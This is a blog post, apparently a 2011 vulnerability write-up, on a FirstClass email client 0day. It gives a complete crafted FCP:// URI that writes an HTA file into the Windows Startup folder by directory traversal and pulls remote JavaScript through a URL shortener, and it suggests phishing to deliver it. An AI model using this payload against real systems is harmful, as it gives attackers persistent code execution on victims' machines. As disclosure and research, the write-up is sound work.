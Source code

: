 ```yaml
---
layout: post
title:  "FirstClass 0day Release (Part 2)"
date:   2011-04-06
excerpt: "...and then an arbitrary file overwrite turned into code execution and persistent backdoor."
tag:
- firstclass
- opentext
- fcp
- email
- URI handlers
- logic
comments: true
---
```


# Setbacks and bypasses
Upon installing the brand new version of FirstClass (v 10.009), I found that they fixed the path length issue, and I could no longer change the extension of the filename by making a very long filename.  Boo!  I didn’t give up, however, because most times if something seems impossible, you just need to give it more time. I had to make this work.  I played around with `FCP://` links, and found that you can make these links point to directories inside of the FirstClass server.  For instance: `FCP://user:password@fc.server.tld/Mailbox;settings.fc`.

This would open the mailbox of the logged-in user, and create the settings file called `settings.fc`.  As I messed around with launching directories within the server, I decided to try changing the `settings.fc` at the end of the URI to `settings.bat` once again, just for the hell of it.

![A BAT file appears even with the "fix"!](/assets/img/blog1_fcfile.jpg)

What’s that?  It worked?  I didn’t even have to do the long path trick with this new version, as long as I included some random FC directory name to open at the end of the server part of the URI, I would have control of the extension once again. Now I just needed to craft an exploit out of this.

Since the settings file has a bunch of bad characters like nulls at the beginning of it that don't seem to be allowed by the URI parser, I knew I had to find some very loosely typed language which executes on Windows by default with its registered file extension.  That’s when I remembered `HTA`.  `HTA` stands for `HTML Application`, and it uses `HTML` tags, but can also run `Javascript/VBScript` code without popping up so much as a single `Are you sure?` confirmation dialog for the user to agree to, as long as it was created and launched locally.  PERFECT!

With this knowledge, I knew I had to craft the URI perfectly to arrange the scripting information in order to get proper code execution.  Keep in mind that there are junk characters between the parts of plain-text settings,  there are lots of unusable characters in URIs, and as I would soon find out, there are length limits to the `username` and `servername` in the URI. If I failed to get around any of these restrictions, the entire exploit would fail, so it was going to take a lot of careful tweaking.

# Shellcoding tricks in the scripting world
After finding and removing the badchars from my crafted URL, and finding that space was very limited, I decided to use some tricks similar to those I learned while making shellcode for previous exploits on binaries written in memory unmanaged languages.  First I will show the completed URI, then I will explain the steps that were used to accomplish the code execution.

```html
fcp://<hta><script src=‘is.gd/9JR6g0’ id=“s”></script>@<body onload=(s.src=“http”%2bString.fromCharCode(58)%2bString.fromCharCode(47)
%2BString.fromCharCode(47)%2Bs.src)>/j;%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cAll%20Users\Start Menu%5cPrograms%5cStartup%5ca%2ehta
```

The first part,
```html
fcp://<hta><script src=‘is.gd/9JR6g0’ id=“s”></script>
```
This pulls a JavaScript file from a server and includes it in the produced file. Since I had very limited space, I couldn’t fit the entire JavaScript source into the `username` field, and instead I used the url shortening service with the fewest characters as I could find to redirect to the JavaScript file. Also, you’ll notice that there is no `http://` at the beginning of the address. This is because the characters `:` and `/` are some of the badchars that would be transformed since they were in the `username` field. However, in order to include a script from an external site, I needed to specify the protocol.

In order to do this, I gave the script tag an `id` of `s` and later on, I reference it.

```html
<body onload=(s.src=”http”%2bString.fromCharCode(58)%2b
String.fromCharCode(47)%2BString.fromCharCode(47)%2Bs.src)>
```

 This part is where I thought of previous techniques used in shellcoding, in particular *egghunting*. This usually means searching for a *signature* (egg), a pre-established sequence of bytes, through tons of junk assembly code and data and executing the shellcode next to it once we find it. Since JavaScript is an interpreted, object oriented language it’s as simple as giving that `<script>` tag an `id` of `s` and referencing it later in the `server-name` part of the URI and add the `http://` part to the url to make it a valid `src` attribute.

 It took a lot of trial and error to find all the character/length limitations and get everything working. Remember also that to allow us to arbitrarily name the settings file, we have to include a FirstClass server path, so I used `/j` in this example to keep it short.  The character used makes no difference.

 The final trick while figuring out where to put the settings file is to answer the question, “How do we get this `HTA` file to execute without the user being aware?”  I mean, sure we can drop this file somewhere, but the user isn’t (usually) going to click some strange file they’ve never heard of.  However there are some folders as you may know which will automatically launch whatever files are put into them, as soon as the computer boots up.  Knowing the default location that FirstClass saves settings files to is `My Documents\FirstClass\Settings\`, I used *directory traversal* to put our `HTA` file into the startup folder (`C:\Documents and Settings\All Users\Start Menu\Programs\Startup\`) so that it will start up as soon as ANYONE logs into the computer.
```
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cAll%20Users%5cStart Menu%5cPrograms%5cStartup%5ca%2ehta
=
..\..\..\..\All Users\Start Menu\Programs\Startup\a.hta
```
 This assumes that the user is a computer administrator.  If you suspect that your target is computer savvy and has created his or her account as a limited user, you can just as easily drop the file in the `%userprofile%\Start Menu\Programs\Startup` by specifying a settings path of:
```
%2e%2e%5C%2e%2e%5C%2e%2e%5CStart%20Menu%5CPrograms%5CStartup%5ca%2ehta
=
..\..\..\Start Menu\Programs\Startup\a.hta
```
 and it will only start up when the exploited user logs in.

 Deploying this would be a matter of phishing to get the user to click the link. Newer versions of FirstClass have HTML parsers which will actually execute JavaScript (believe it or not) so you could perhaps have the "clicking" be done without the user's interaction, but I'll leave that vector as a fun exercise for my dear reader.

 Thanks for reading!
